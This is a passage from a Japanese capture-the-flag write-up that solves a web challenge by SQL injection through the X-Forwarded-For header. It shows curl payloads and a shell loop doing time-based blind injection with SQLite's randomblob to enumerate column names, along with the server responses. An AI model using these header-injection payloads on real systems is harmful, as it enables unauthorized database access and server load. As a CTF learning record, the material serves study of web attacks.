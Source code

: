 index.htmlだと404、index.phpだとページが表示されるため、phpで動的にコンテンツを返している。
curlでアクセスすると、冒頭にsql文が表示されることに気がつく。

```
$ curl -s http://35.222.174.178/maria/  |head -3
SELECT * FROM nxf8_sessions where ip_address = 'nn.nn.153.130'<!DOCTYPE html>
<html lang="en">
  <head>
```

IPアドレスを元にselectを実施している。  
これでMariaだと、flagが表示されるようにしている仕組みのよう。  
流石にIPアドレスは変えられないため、IPを表すX-Forwarded-Forヘッダを試してみたところ、ヘッダの値が入力されている。  

```
$ curl -H 'X-Forwarded-For: 1.1.1.1' -s http://35.222.174.178/maria/  |head -3
SELECT * FROM nxf8_sessions where ip_address = '1.1.1.1'<!DOCTYPE html>
<html lang="en">
  <head>
```

これを元にSQLインジェクションしていくが、どのようなSQL文を実行しても表示されるのはSQL文のみで結果は表示されない（結果がMariaだった場合のみFLAGが表示される）ため、カラム名が特定できない。  
指定したカラム名が存在しない場合は、コンテンツなしで、エラーメッセージだけ表示される。（エラーメッセージ的にDBはSQLite）

```
$ curl -H "X-Forwarded-For: 1.1.1.1' or username = 'Maria" -s http://35.222.174.178/maria/  
SELECT * FROM nxf8_sessions where ip_address = '1.1.1.1' or username = 'Maria'Error : HY000 1 no such column: username
```
勘でカラム名を入れてみるものの、idが使えそうということしかわからない。  
id = Mariaやid = mariaやid = MARIAを試したがダメ。  
```
$ curl -H "X-Forwarded-For: 1' or id = 'MARIA" -s http://35.222.174.178/maria/ | grep -i -e select -e flag
SELECT * FROM nxf8_sessions where ip_address = '1' or id = 'MARIA'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
```

そこでブラインドSQLインジェクションでカラム名の特定ができないか試してみることに。
Select結果を元にエラーを出すのは難しそうなので、エラーベースは難しそう。

SQLiteの場合、タイムベースでは「randomblob」関数を利用して、大きな乱数を生成させるために時間がかかることを元に判断する。
サーバのCPU負荷がかかるので、無闇に使うとサーバに負荷がかかる可能性がある。
最小限（探しているものが見つかった時だけ実行されるように）にして、ローカルでSQLiteの環境を用意して、テストした上で利用することに。

例）ia,ib,icはないが、idの時は応答に時間がかかる。

```
TIME=100000000
URL=http://35.222.174.178/maria/
SQL="or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') and "

$ for i in {a..z} {0..9} ; do STR="%i${i}%";(time curl -s -H "X-Forwarded-For: 1' ${SQL} '${STR}' escape '@' and 1 = randomblob(${TIME});" ${URL} )2>&1 | grep -i -e read -e select -e flag -e real; done

SELECT * FROM nxf8_sessions where ip_address = '1' or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') LIKE  '%ia%' escape '@' and 1 = randomblob(100000000);'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
real	0m0.400s

SELECT * FROM nxf8_sessions where ip_address = '1' or (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='nxf8_sessions') LIKE  '%ib%' escape '@' and 1 = randomblob(100000000);'<!DOCTYPE html>
        <p>Say hi to Maria! its the only person who can reveal the flag</p>
real	0m0.352s
```